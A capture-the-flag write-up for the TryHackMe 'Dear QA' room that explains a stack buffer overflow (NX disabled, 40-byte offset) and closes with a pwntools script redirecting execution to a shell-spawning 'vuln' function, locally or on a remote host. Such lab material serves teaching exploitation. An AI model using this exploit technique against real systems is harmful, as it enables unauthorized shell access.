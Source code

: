 ```yaml
---
title: "Dear QA - TryHackMe CTF Write-up"
classes: wide
header:
  teaser: /assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/logo.png
ribbon: red
description: "We try buffer overflow directly, because why not? After checksec we can decide our attacking vector...."
categories:
  - Binary Exploitation
toc: true
---
```


CTF link: 

[Dear QA - Tryhackme](https://tryhackme.com/room/dearqa)

We try buffer overflow directly, because why not? After checksec we can decide our attacking vector.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled.png)

NX disabled, easy one. Just find the offset and execute shellcode or we can check if there a function gives us shell directly.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%201.png)

When we overflow buffer we see that  “aaal” overwritten on return address. Offset is 44-4= 40 because of “aaal” is detected when “l” appears, “l” is located at 44 but “aaal” located at 40.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%202.png)

We found a function gives us shell, our attack vector is “buffer overflow + execute vuln function“

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%203.png)

There is something wrong with this machine, we can execute code we can not get output. Okey we can open reverse shell and use it. But our exploit succeed.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%204.png)

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%205.png)

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './DearQA.DearQA'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

exploit = b""
exploit += b"\x90"*40
exploit += p64(binary.sym['vuln'])

io.recvuntil(b"name: ")
io.sendline(exploit)

io.interactive()
```